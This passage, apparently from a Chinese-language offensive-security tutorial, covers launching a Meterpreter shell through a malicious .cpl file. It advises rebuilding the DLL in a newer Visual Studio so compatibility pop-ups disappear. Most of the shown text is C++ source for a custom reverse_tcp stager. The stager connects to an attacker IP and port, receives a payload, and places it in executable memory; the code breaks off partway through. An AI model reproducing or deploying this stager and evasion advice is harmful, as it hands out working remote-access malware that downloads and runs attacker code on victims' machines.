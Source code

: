 双击test.cpl后弹回meterpreter shell  
但是同样在退出的时候会弹框提示程序兼容性助手

0x04 解决问题
=====

1、正常dll执行后弹框
------------

经过测试发现，原有是因为vc6.0的版本低导致的程序兼容问题  
所以换在vs2008(或者更新的版本)下开发就不会存在这个问题

如图

![Alt text](http://drops.javaweb.org/uploads/images/cd72e44881f77c79f0e28f206f2427a92e9abbe9.jpg)

2、解决meterpreter弹框的问题
--------------------

这里不深入探究msfvenom的生成方式，解决方法为使用c++程序自己编写一个meterpreter的reverse_tcp版本  
**关键代码：**

```
#include "Windows.h"
#include <WinSock2.h>
#include <stdio.h>  

#pragma comment(lib,"WS2_32.lib")   

int reverse_tcp()
{
    WSADATA wsData;
        if(WSAStartup(MAKEWORD(2,2),&wsData))
        {
            printf("WSAStartp fail.\n");
            return 0;
        } 

        SOCKET sock = WSASocket(AF_INET,SOCK_STREAM,0,0,0,0);
        SOCKADDR_IN server;
        ZeroMemory(&server,sizeof(SOCKADDR_IN));
        server.sin_family = AF_INET;
        server.sin_addr.s_addr = inet_addr("192.168.127.132"); //server ip
        server.sin_port = htons(8888); //server port
        if(SOCKET_ERROR == connect(sock,(SOCKADDR*)&server,sizeof(server)))
        {
            printf("connect to server fail.\n");
            closesocket(sock);
            WSACleanup();
            return 0;
        } 

        u_int payloadLen;
        if (recv(sock,(char*)&payloadLen,sizeof(payloadLen),0) != sizeof(payloadLen))
        {
            printf("recv error\n");
            closesocket(sock);
            WSACleanup();
            return 0;
        } 

        char* orig_buffer = (char*)VirtualAlloc(NULL,payloadLen,MEM_COMMIT,PAGE_EXECUTE_READWRITE);
        char* buffer = orig_buffer;
        int ret = 0;
        do 
        {
```